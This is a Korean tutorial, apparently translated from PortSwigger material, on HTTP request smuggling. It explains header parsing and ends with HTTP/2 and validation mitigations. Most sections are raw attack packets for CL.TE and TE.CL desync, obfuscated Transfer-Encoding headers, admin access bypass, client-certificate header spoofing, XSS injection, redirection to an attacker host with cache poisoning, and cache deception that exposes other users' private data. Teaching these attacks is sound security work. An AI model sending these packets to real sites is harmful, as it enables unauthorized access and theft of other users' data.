






PortSwigger의 교육 자료를 번역하며 정리하였습니다 😁

References는 글의 최하단을 참고 부탁드립니다.

# 📌 01. 개요

## HTTP request smuggling 이란?
HTTP 1 .1을 사용하는 Front-end 서버와 Back-end 서버로 이루어진 웹 어플리케이션을 대상으로하여, 변조된 패킷을 일반 사용자가 접근할 수 없는 Back-end 서버로 직접 보내 중요 정보 획득, XSS 공격 유도, 서버 웹 캐시 포이즈닝 등의 공격을 수행할 수 있습니다. 

패킷은 **Content-Length**, **Transfer-Encoding: chunked** 헤더 등 을 변조하여 Front-end 서버와 Back-end 서버가 패킷의 길이를 다르게 해석케 할 수 있으며, 이를 이용해 하나의 패킷 안에 또 다른 패킷을 포함할 수 있습니다. Back-end 서버에서 이렇게 악의적으로 포함(밀수, smuggling)된 패킷을 해석할 경우에 공격이 수행됩니다.

HTTP 1.1에서 패킷의 길이를 명시하는 헤더에는 **Content-Length**, **Transfer-Encoding: chunked** 헤더가 있습니다.

## Content-Length
Content-Length는 아래 패킷과 같이 직접적으로 나타냅니다.
```
POST /blah HTTP/1.1
Host: my-website.co.kr
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

v=smuggling
```
## Tansfer-Encoding: chunked
Transfer-Encoding: chunked 헤더는 데이터를 분할하여 보내게 됩니다.
“/r/n 를 제외한 문자의 길이, 데이터, 다음 라인의 데이터 크기” 가 반복하여 포함됩니다. 0은 패킷의 끝을 나타냅니다.

```
POST /blah HTTP/1.1
Host: my-website.co.kr
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

b
v=smuggling
0

```
> - 요청에서 ‘chunked’ 인코딩을 사용하는 것을 거의 볼 수 없었던 이유는, 브라우저에서는 보통 요청에서 ‘chunked’ 인코딩을 사용하지 않으며 응답에서 주로 사용되기 때문입니다.
> - Burp Suite에서는 Content-Length를 자동으로 계산하여 수정하므로 해당 기능을 꺼야 공격을 수행할 수 있습니다.

# 📌 02. 기본 공격 방법

## CL.TE 취약점

Front-end 서버에서 Content-Length를, Back-end 서버에서 Transfer-Encoding을 이용하여 패킷 길이 계산을 할 경우 아래와 같은 패킷을 Front-end 서버에 전송하여 공격을 수행할 수 있습니다.
```
POST / HTTP/1.1
Host: vuln-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```
Front-end 서버에서 패킷의 SMUGGLED 문자열 끝까지 읽어들여 Back-end 서버로 전송합니다.

Back-end 서버에서는 Transfer-Encoding: chunked 헤더를 이용하여 패킷을 읽어들이며 0을 만났으므로 패킷의 끝으로 인식합니다. SMUGGLED 문자열은 다음 새로운 패킷의 시작으로 받아들입니다.

위 패킷에서 SMUGGLED 대신 G 를 입력하고 Content-Length를 6으로 바꿔 전송할 경우, 아래 그림과 같이 Back-end에서는 G가 패킷의 시작점으로 인식되어 GPOST라는 메소드로 읽히게 되고 에러가 발생합니다.



## TE.CL 취약점
Front-end 서버에서 Transfer-Encoding을, Back-end 서버에서 Content-Length를 이용하여 패킷 길이 계산을 할 경우 아래와 같은 패킷을 Front-end 서버에 전송하여 공격을 수행할 수 있습니다.
> 마지막 0 이후에 ‘/r/n/r/n’을 포함해야 합니다.
> 

```
POST / HTTP/1.1
Host: vuln-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0

```




## TE.TE 취약점 (난독화 이용)

Front-end 서버와 Back-end 서버에서 모두 Transfer-Encoding 헤더를 지원하지만 어떤 방식이든 헤더를 난독화하여 서버 중 하나가 헤더를 처리하지 않도록 할 수 있습니다. 하나의 서버가 Transfer-Encoding 헤더를 처리하지 않게 되면 나머지 과정은 ‘CL.TE’, ‘TE.CL’ 취약점과 같습니다.

```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked

Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```



# 📌 03. 취약점 탐색
## 03-01. 요청 시간 지연을 이용한 방법
### CL.TE 취약점
웹 어플리케이션이 HTTP request smuggling CL.TE 공격에 취약한 경우, 아래 패킷 보내면 종종 응답 시간 지연이 발생합니다.

Front-end 서버는 Content-Length를 이용하기 때문에 A 까지만 받아들여 X를 생략하고 Back-end 서버로 전달합니다. Back-end 서버에서는 A 이후  다음 chunk를 대기하므로 시간 지연이 발생합니다.

```
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 4

1
A
X
```

### TE.CL 취약점

TE.CL 공격에 취약한 경우, 아래 패킷 보내면 종종 응답 시간 지연이 발생합니다.

Front-end 서버는 Transfer-Encoding을 이용하기 때문에 0을 만나 패킷의 내용이 끝난 것으로 인식한 후 Back-end 서버로 해당 패킷을 전달합니다. 

Back-end 서버에서는 Content_Length를 확인하여 Body가 6 bytes 인 것으로 예상하므로 0 이후의 내용이 전달되길 기다리게 됩니다.

```
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 6

0

X
```

> 요청 시간 지연을 이용한 방법 중 TE.CL 취약점은 웹 어플리케이션이 CL.TE에 취약한 경우, 종종 타 사용자의 서비스 이용을 방해할 수 있으므로 CL.TE 취약점을 먼저 점검하길 권장합니다.
> 

## 03-02. 다른 응답 값을 이용한 방법

취약점 유발 패킷을 보낸 직후 아래 정상 패킷을 보내는 경우, 예상과는 다른 응답을 받을 수 있는 점을 이용하여 취약점을 확인합니다. 

아래 패킷은 일반적인 경우 응답 코드 200을 수신하지만, 서버에 취약점 패킷이 수신 된 직후에 아래 패킷이 들어오면 정상적인 요청에 대한 응답이 방해 받아 공격자가 의도한 페이지의 응답 패킷을 보낼 수 있게 됩니다.

```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

> - "공격" 요청과 "정상" 요청은 서로 다른 네트워크 연결을 사용하여 서버로 보내야 합니다. 동일한 연결을 통해 두 요청을 모두 보내는 것은 취약점이 존재한다는 것을 증명하지 않습니다.
> - "공격" 요청과 "일반" 요청은 가능한 한 동일한 URL 및 매개변수 이름을 사용해야 합니다. 이는 많은 최신 애플리케이션이 URL 및 매개변수를 기반으로 Front-end 요청을 다른 Back-end 서버로 라우팅하기 때문입니다. 동일한 URL과 매개변수를 사용하면 공격이 작동하는 데 필수적인 동일한 Back-end 서버에서 요청을 처리할 가능성이 높아집니다.


### CL.TE 취약점

취약점 확인을 위해 아래 패킷을 서버로 전송합니다.

```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=\r\n
0

GET /404 HTTP/1.1
Foo: x
```

공격에 성공하면 Back-end 서버에서 마지막 두 줄을 다음 요청에 속하는 패킷으로 인식하여 패킷이 끝나길 대기합니다.

직후에 같은 Host의 임의 페이지 요청이 수신되면 아래와 같은 형태의 패킷이 완성되어 404 에러 페이지를 응답합니다.
```
GET /404 HTTP/1.1
Foo: xPOST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```


공격 직후 다른 네트워크 상에서 메인 페이지(/) 접속 요청 시 404 에러가 출력 됩니다.



### TE.CL 취약점

취약점 확인을 위해 아래 패킷을 서버로 전송합니다.

```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7c
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0
```

Front-end 서버에서 chunked 인코딩에 의해 /404 페이지 요청이 Back-end로 전달되고 Content-Length 가 144 이므로 해당 크기 만큼의 데이터가 올 때까지 대기하게 됩니다. 이후 다른 네트워크 상에서 메인 페이지(/) 접속 요청 시 대기 중이던 패킷에 결합되어 404 에러 페이지가 출력 됩니다.



# 📌 04. HTTP request smuggling 활용

이 글에서는 개요 정도만 다룹니다. 상세 설명은 PortSwigger의 [**‘Exploiting HTTP request smuggling vulnerabilities’**](https://portswigger.net/web-security/request-smuggling/exploiting) 글을 참고바랍니다.

## 04-01. Front-end 접근 제어 우회

Front-end에서 접근을 제어하며 Front-end와 back-end 사이에는 별도의 접근 제어가 존재하지 않는 경우, 접근 제어를 우회하여 Back-end 서버 페이지에 직접 요청할 수 있습니다.

현재 사용자가 /home에 액세스할 수 있지만 /admin에는 액세스할 수 없다고 가정했을 때, 다음 요청 밀수 공격을 사용하여 이 제한을 우회할 수 있습니다.

```
POST /home HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: xGET /home HTTP/1.1
Host: vulnerable-website.com
```

## 04-02. Front-end에서 재작성 되는 Back-end 요청 패킷 유출

Front-end 서버에서 Back-end 서버로 요청 시 다음과 같은 헤더 등을 추가하는 경우가 있습니다.

- TLS 연결 종료 및 프로토콜, 암호 관련 헤더
- 사용자 IP가 포함된 X-Forwarded-For 헤더
- 세션 토큰을 기반으로 한 사용자 ID  또는 사용자 식별 헤더
- 기타 중요 정보

Back-end 서버에서 필요한 헤더가 누락된 경우 페이지를 정상적으로 로딩 하지 못할 수 있으므로 아래와 같은 과정을 거쳐 필요한 헤더를 확인할 수 있습니다.

1. 요청 매개변수의 값이 애플리케이션의 응답 Body에 포함되는 POST 요청을 찾습니다.
2. 응답 Body에 포함되는 파라미터를 요청 Body의 마지막에 위치 시킨 후 Content-Length를 크게(200 정도) 설정합니다.
3. 해당 Smuggled 패킷을 연속으로 2회 전송하면 Front-end 서버에서 조작된 패킷의 내용이 파라미터 값으로 입력되어 페이지에 출력 됩니다.

다음과 같은 Smuggling 공격 패킷을 2회 연속 요청할 경우, ‘email’ 파라미터에 패킷의 내용이 입력되어, Front-end 페이지에 패킷의 내용이 출력됩니다.

**1회 요청 직후 타 사용자의 패킷이 전송되는 경우, 타 사용자의 요청 패킷이 파라미터에 입력되어 노출될 수도 있습니다.**

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 130
Transfer-Encoding: chunked

0

POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

email=
```

아래와 같은 Front-end 응답 패킷을 확인할 수 있습니다.

```
<input id="email" value="POST /login HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For: 1.3.3.7
X-Forwarded-Proto: https
X-TLS-Bits: 128
X-TLS-Cipher: ECDHE-RSA-AES128-GCM-SHA256
X-TLS-Version: TLSv1.2
x-nr-external-service: external
...
```

## 04-03. 클라이언트 인증 우회

TLS Handshake의 일부로 서버는 인증서를 제공하여 클라이언트(브라우저)에 자신을 인증합니다. 이 인증서에는 등록된 호스트 이름과 일치해야 하는 CN(Common Name)이 포함되어 있습니다. 
클라이언트는 이를 사용하여 합법적인 서버와 통신하고 있는지 확인할 수 있습니다.

일부 사이트는 한 단계 더 나아가 클라이언트가 서버에 인증서를 제시해야 하는 상호 TLS 인증 형식을 사용합니다. 
이 경우 클라이언트의 CN은 액세스 제어 메커니즘의 일부로 사용될 수 있으며 백엔드 응용 프로그램에서 사용할 수 있는 사용자 이름  등 이와 유사한 경우가 많습니다.

```
GET /admin HTTP/1.1
Host: normal-website.com
X-SSL-CLIENT-CN: carlos
```

‘X-SSL-CLIENT-CN: carlos’ 와 같은 값은 Back-end 서버에 숨겨져 있으므로 쉽게 신뢰하도록 구현되어 있는 경우가 많습니다. 예를 들어 아래과 같은 Smuggling 패킷을 보내여 간단하게 우회할 수 도 있습니다.

```
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 64
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-SSL-CLIENT-CN: administrator
Foo: x
```

## 04-04. Reflected XSS 공격과 연계 악용

홈페이지에서 Reflected XSS 취약점이 발견된 경우, 사회공학적 수단을 이용해 URL에 접속하도록 유도하는 것이 아닌, Smuggling 패킷을 보내어 다음 요청 패킷을 전송하는 사용자에게 강제로 Reflected XSS 공격을 수행할 수도 있습니다. 특히, 헤더에서 XSS 공격이 발견된 경우에도 해당 헤더에 페이로드를 삽입하여 Smuggling 패킷을 보내면 다음 요청 사용자에게 XSS 공격이 유효할 수 있습니다.

‘User-Agent’에 XSS 취약점이 존재하는 경우, 아래와 같은 패킷을 보내여 다음 요청을 전송하는 사용자를 공격할 수 있습니다.

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 63
Transfer-Encoding: chunked

0

GET / HTTP/1.1
User-Agent: <script>alert(1)</script>
Foo: X
```

## 04-05. On-site Redirection을 Open Redirection으로 전환 & 웹 캐시 P**oisoning**

홈페이지 상에서 On-site Redirection 시 아래와 같은 형태로 이루어집니다.

```
GET /home HTTP/1.1
Host: normal-website.com

HTTP/1.1 301 Moved Permanently
Location: https://normal-website.com/home/
```

**보통 Host 헤더의 도메인을 Redirection 대상으로 사용하는 경우가 많으므로**, 이 점을 Smuggling에 활용합니다. 아래와 같은 패킷을 보내어 다음 요청 사용자를 타 사이트로 Redirection 시킬 수 있습니다.

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
```

Smuggling 요청이 Back-end 서버에서 대기하며 다음 요청이 도착하였을 때, 아래와 같은 형태가 됩니다. 공격자는 ‘https://attacker-website.com/home/’ 에서 공격 JavaScript를 반환하여 사용자에게 피해를 입힐 수 있습니다.

```
GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /scripts/include.js HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```

Front-end 서버에서 콘텐츠를 캐시하는 경우, 이러한 공격이 다음 요청 시에도 계속 적용이 되어 공격자의 사이트로 Redirection 하게 됩니다.

## 04-06. 웹 캐시 D**eception**

웹 캐시 Poisoning은 캐시된 패킷을 이용해 Redirection 시키거나 악성 행위를 하도록 유도하는 것이지만, 웹 캐시 Deception의 경우, 공격자가 Smuggling 패킷을 보내 다음 요청 패킷을 보내는 사용자가 중요 정보를 요청하도록 하면 중요 정보가 담긴 응답 패킷이 캐시에 저장되며 반환됩니다.
공격자는 캐시에 저장된 중요 정보를 요청하여 훔쳐볼 수 있습니다.

다음과 같은 Smuggling 패킷을 보내어 공격을 수행할 수 있습니다.

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 43
Transfer-Encoding: chunked

0

GET /private/messages HTTP/1.1
Foo: X
```

위 요청은 Back-end 서버로 전달되어 두번째 ‘/message’ 요청이 대기하고 있으며 다음 요청이 오면 아래와 같이 결합됩니다.

```
GET /private/messages HTTP/1.1
Foo: XGET /static/some-image.png HTTP/1.1
Host: vulnerable-website.com
Cookie: sessionId=q1jn30m6mqa7nbwsa0bhmbr7ln2vmh7z
...
```

Back-end 서버에서는 아래와 같은 응답을 반환하며 Front-end 서버에서는 ‘/some-image.png’ 요청에 대한 응답으로 아래 패킷을 캐시하게됩니다. 이후 공격자는 ‘/some-image.png’를 요청하여 캐시된 응답을 반환 받습니다. 캐시된 응답 패킷에는 Smuggling 된 요청의 응답인 ‘/private/messages’의 내용이 담겨있습니다.

```
GET /static/some-image.png HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 200 Ok
...
<h1>Your private messages</h1>
...
```

# 📌 05 대응 방안

1. End to end HTTP/2를 사용하고 가능하면 HTTP 다운그레이드를 비활성화합니다. HTTP/2는 요청 길이를 결정하기 위해 강력한 메커니즘을 사용하며 종단 간 사용 시 본질적으로 HTTP Smuggling 으로부터 보호됩니다.
2. HTTP 다운그레이드를 피할 수 없는 경우 HTTP/1.1 요청의 유효성을 검사해야 합니다. 예를 들어 헤더에 줄 바꿈, 헤더 이름의 콜론, 요청 메서드에 공백이 포함된 요청을 거부합니다.


# 📌 06 References

[[1] What is HTTP request smuggling? Tutorial & Examples | Web Security Academy](https://portswigger.net/web-security/request-smuggling)

[[2] Finding HTTP request smuggling vulnerabilities | Web Security Academy](https://portswigger.net/web-security/request-smuggling/finding)

[[3] Exploiting HTTP request smuggling vulnerabilities | Web Security Academy](https://portswigger.net/web-security/request-smuggling/exploiting)